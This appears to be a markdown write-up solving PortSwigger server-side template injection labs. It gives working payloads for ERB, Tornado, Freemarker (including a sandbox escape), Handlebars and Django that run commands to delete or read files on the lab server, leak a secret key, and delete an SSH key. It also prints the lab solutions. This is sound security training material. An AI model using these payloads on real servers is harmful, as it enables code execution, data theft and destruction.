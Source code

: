 ## Basic SSTI
[Basic SSTI](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

Write-up:

1. When we click the first product, we see the message "Unfortunately this product is out of stock."
If we change the message parameter to `<%= 7*7 %>`, we see that it returns 49 - ERB injection possibility.

2. Changing the message parameter to `<%= system 'ls' %>` shows us the **morale.txt** file.
   
3. We can use `<%= system 'rm morale.txt' %>` to solve the lab.

## Basic SSTI (code context)
[Basic SSTI (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)

Write-up:

1. After logging in, we see there are two actions in our account - changing e-mail and preferred name.
Analyzing both these requests shows us that changing preferred name has an interesting parameter that changes our name display in post comments. For example, changing preferred name to name uses parameter `blog-post-author-display=user.name`.

2. After studying the Tornado docs, we see that its template expressions are surrounded by curly braces, so we can use these to escape and execute code: <br>
    `blog-post-author-display=user.name}}{{7*7}}` <br>
    This shows us 49, which points to code being executed.

3. Using {% %} to execute arbitrary code, we can craft the following payload: <br>
    `blog-post-author-display=user.name}}{%25%20import%20os%20%25}{{os.system('rm%20/home/carlos/morale.txt')}}` <br>
    URL-encoding the necessary characters (spaces - %20 and % - %25). This solves the lab.

## SSTI using documentation
[SSTI using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)

Write-up:

1. We are instructed to discover the template engine used. If we click one of the posts, we have
the option to edit a template, we can see that code is being executed to retrieve stock, for example.

2. Using this [tool](https://cheatsheet.hackmanit.de/template-injection-table/), 
we discover that this lab uses a Freemarker template.

3. Using the [documentation](https://freemarker.apache.org/docs/api/index.html), we craft the following payload: <br> `${"freemarker.template.utility.Execute"?new()("rm morale.txt")}` <br> This solves the lab.

## SSTI in an unknown language with a documented exploit
[SSTI in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

Write-up:

1. Like in the **Basic SSTI** lab, we can change a message parameter. Using this
[tool](https://cheatsheet.hackmanit.de/template-injection-table/), we discover 
this lab is using a Handlebars template (Javascript).

2. Searching the internet for documented Handlebars SSTI exploits, we find this
[link](https://gist.github.com/vandaimer/b92cdda62cf731c0ca0b05a5acf719b2).

3. Using the Node.js [docs](https://nodejs.org/api/child_process.html) for child_process,
we can craft the following payload: <br>
    ```
    {{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
        {{this.pop}}
        {{this.push (lookup string.sub "constructor")}}
        {{this.pop}}
        {{#with string.split as |codelist|}}
            {{this.pop}}
            {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');" }}
            {{this.pop}}
            {{#each conslist}}
            {{#with (string.sub.apply 0 codelist)}}
                {{this}}
            {{/with}}
            {{/each}}
        {{/with}}
        {{/with}}
    {{/with}}
    {{/with}}
    ```

4. URL-encoding this payload and submitting it as **message** solves the lab.

## SSTI with information disclosure via user-supplied objects
[SSTI with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

Write-up:

1. After logging in, we are able to edit templates, and we discover that a Django 
template with Python 2.7 is being used.

2. Upon researching Django SSTI, we can find this [website](https://www.wallarm.com/what/server-side-template-injection-ssti-vulnerability).
It shows us that we can try to access {{settings}}, and possibly {{settings.SECRET_KEY}}, which are both possible.
This reveals the solution: **xd4klewsdwzux56wdrfdxgaajj8ekyr0**

## SSTI in a sandboxed environment
[SSTI in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)

Write-up:

1. We are told the website uses a Freemarker template and that we should break out
of the sandbox and read flag at home/carlos/my_password.txt. After logging in,
we see that we can once again edit the posts' templates.

2. Attempting to use the payload `${"freemarker.template.utility.Execute"?new()("cat /home/carlos/my_password.txt")}`
fails due to the sandboxed environment: <br>
"Instantiating freemarker.template.utility.Execute is not allowed in the template for security reasons."

1. After some research, we can find the following [documented exploit](https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack). We use it
to craft the following payload: <br>
`${product.class.protectionDomain.classLoader.loadClass("freemarker.template.ObjectWrapper").getField("DEFAULT_WRAPPER").get(null).newInstance(product.class.protectionDomain.classLoader.loadClass("freemarker.template.utility.Execute"),null)("cat /home/carlos/my_password.txt")}` <br>
This gets us the solution: **6ahblydrrpsffr1ru83r**

## SSTI with a custom exploit
[SSTI with a custom exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit)

Write-up:

1. We need to discover which template engine the lab is using and then craft a 
payload to delete /home/carlos/.ssh/id_rsa. After logging in, we find a setup similar to
**Basic SSTI (code context)**. 

2. In our "My account" page, we have access to 2 different relevant POST requests: 
`POST /my-account/avatar` and `POST /my-account/change-blog-post-author-display`.
These are relevant because we can see the changes being applied when we open a post's comments.

3. When we upload an invalid image, we find out a user.SetAvatar() method exists, and that there
is a /home/carlos/User.php. <br>
`blog-post-author-display=user.setAvatar("/home/carlos/User.php","image/png")` <br>
This payload makes it so that the avatar is the relevant php file, and a GET request to it
allows us access to the file.

4. We see there is a method called gdprDelete which happens to delete the avatar file. <br>
    ```
    blog-post-author-display=user.setAvatar("/home/carlos/.ssh/id_rsa","image/png")
    blog-post-author-display=user.gdprDelete()
    ```

    These 2 payloads solve the lab.

